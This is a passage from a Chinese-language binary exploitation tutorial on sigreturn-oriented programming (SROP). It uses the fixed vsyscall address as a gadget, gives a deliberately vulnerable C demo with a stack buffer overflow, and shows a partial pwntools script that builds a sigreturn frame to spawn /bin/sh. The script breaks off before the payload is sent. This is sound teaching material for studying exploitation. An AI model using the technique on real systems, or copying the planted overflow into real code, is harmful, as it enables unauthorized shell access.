 另一种方法是我们可以用ROP制造一个sigreturn，只需要找到一个syscall和ret的地址就行。幸运的是在x64上很容易找到：因为有vsyscall。而且vsyscall的地址是固定的：0xffffffffff600000。
```shell
gdb-peda$ x/3i 0xffffffffff600000
   0xffffffffff600000:  mov    rax,0x60
   0xffffffffff600007:  syscall 
   0xffffffffff600009:  ret
```

## Example
我写了个demo来测试一下(based on x86)。比较简单。
```c
#include <stdio.h>
#include <unistd.h>
char buf[10] = "/bin/sh\x00";
int main()
{
    char s[0x100];
    puts("input something you want: ");
    read(0, s, 0x400);
    return 0;
}
```

以下是我的利用脚本：
```python
from pwn import *
import random

binsh_addr = 0x804a024
bss_addr = 0x804a02e
vdso_range = range(0xf7700000, 0xf7800000, 0x1000)

def main():
    global p
    debug = 1
    if debug:
        #context.level_log = "debug"
        context.arch = "i386"
        p = process('./srop_test')
    else:
        pass
    
    global vdso_addr
    vdso_addr = random.choice(vdso_range)
    payload = 'a' * 0x10c
    frame = SigreturnFrame(kernel = "i386")
    frame.eax = 0xb
    frame.ebx = binsh_addr
    frame.ecx = 0
    frame.edx = 0
    frame.eip = vdso_addr + 0x416  #address of int 80h
    frame.esp = bss_addr  
    frame.ebp = bss_addr  
    frame.gs = 0x63
    frame.cs = 0x23
    frame.es = 0x2b
    frame.ds = 0x2b
    frame.ss = 0x2b
    
    ret_addr = vdso_addr + 0x411  #address of sigreturn syscall
    
    #print payload
    
```